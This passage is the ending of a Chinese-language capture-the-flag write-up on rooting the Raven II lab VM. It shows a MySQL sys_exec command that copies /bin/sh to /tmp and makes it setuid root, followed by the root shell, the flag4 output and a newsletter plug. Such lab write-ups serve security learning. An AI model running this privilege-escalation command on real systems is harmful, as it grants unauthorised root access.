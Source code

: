 ```
+-------------------------------------------------------------------------+
| sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh') |
+-------------------------------------------------------------------------+
|                                                                       0 |
+-------------------------------------------------------------------------+
Trying to spawn a root shell...
# whoami
root
```

现在读出`/root/flag4.txt`中的 flag4。

```
# cat /root/flag4.txt
  ___                   ___ ___ 
 | _ \__ ___ _____ _ _ |_ _|_ _|
 |   / _` \ V / -_) ' \ | | | | 
 |_|_\__,_|\_/\___|_||_|___|___|

flag4{df2bc5e951d91581467bb9a2a8ff4425}

CONGRATULATIONS on successfully rooting RavenII

I hope you enjoyed this second interation of the Raven VM

Hit me up on Twitter and let me know what you thought: 

@mccannwj / wjmccann.github.io
```

我会在下一个博客中看到你，直到那时快乐的黑客！❤

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周时事通讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！
